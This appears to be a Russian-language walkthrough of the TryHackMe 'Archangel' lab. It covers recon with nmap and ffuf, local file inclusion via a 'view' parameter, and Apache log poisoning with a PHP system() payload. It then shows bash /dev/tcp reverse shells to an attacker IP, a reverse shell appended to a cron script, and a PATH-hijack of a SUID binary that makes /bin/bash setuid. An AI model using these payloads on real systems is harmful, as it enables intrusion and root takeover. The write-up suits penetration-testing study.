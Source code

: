 https://tryhackme.com/room/archangel

> [!IP]
> 10.10.139.207

```
nmap -p- 10.10.139.207 -vv -T4
```

```
sudo nmap 10.10.139.207 -sC -sV -p22,80  
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420014507.png)

```
echo "10.10.139.207    mafialive.thm" >> /etc/hosts 
```
### 1 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015150.png)
### FFUF
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.10.139.207/FFUZ -ic -c
```

```
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 72ms]
pages                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 86ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 1935ms]
flags                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 104ms]
layout                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 71ms]
                        [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 79ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 86ms]
```

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://mafialive.thm/ -H "Host:FUZZ.mafialive.thm"
```

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015842.png)
# LFI to RCE

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420015917.png)
>Контроль это иллюзия)) Интересный параметр ?view=
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420020620.png)
php://filter/convert.base64-encode/resource=

```
echo "PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==" |base64 -d
<?php echo 'Control is an illusion'; ?>
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420021626.png)
## Логика работы приложения
### 2 FLAG
```
<?php

            //FLAG: thm{############}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>

```

Посмотрев исходник делаю вывод что ../.. фильтруется для path treversal.Буду использовать словарь и  начинать с конечной точки /var/www/html/development_testing
```
https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/refs/heads/master/LFI%20payloads.txt
```

```
ffuf -w LFI\ payloads.txt:FFUZ -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FFUZ -ic -c -fs 286,310
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420022659.png)
```
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
Через error log:
```
https://www.linkedin.com/pulse/php-rce-through-log-poisoning-lucas-mendes-de-oliveira-8u68f
```

```
/var/log/apache2/error.log 
/var/log/apache2/acsess.log 
```

```
http://mafialive.thm/%3C%3fphp%20system('whoami');%20%3f%3E.php
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420024504.png)

Я пойду через access log
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//..////var/log/apache2/access.log
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050356.png)
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050335.png)
Revers shell
```
bash -c 'bash -i &>/dev/tcp/10.11.134.170/1337 <&1' 
```
Данную нагрузку нужно привести в URL code

```
nc -lnvp 1337
```
# 3 Flag
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420050914.png)
# LPE
### Linpeas

```
wget http://https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

```
*/1 *   * * *   archangel /opt/helloworld.sh
```
В записях cron интересный скрипт  

```
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
www-data@ubuntu:/tmp$ echo "bash -c 'bash -i &>/dev/tcp/10.11.134.170/1338 <&1' " >> /opt/helloworld.sh
```

```
nc -lnvp 1338
```

## 4 Flag
```
 ls -la /home/archangel/secret.
```
![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Archangel/screenshots/20250420052240.png)


```
strings /home/archangel/secret/backup
cp /home/user/archangel/myfiles/* /opt/backupfiles

```
Нашел SUID-бинарник backup, который вызывал cp без указания полного пути.
```
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
```
Проверяем PATH))
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
Добавляем свой путь 
```
export PATH=/tmp:$PATH
```
Итого)
```
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

```
echo '#!/bin/bash' > /tmp/cp
echo "chmod u+s /bin/bash" >> /tmp/cp
chmod +x /tmp/cp
./backup
```
## 5 Flag

![Archangel](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/20250420055029/screenshots/20250420052240.png)
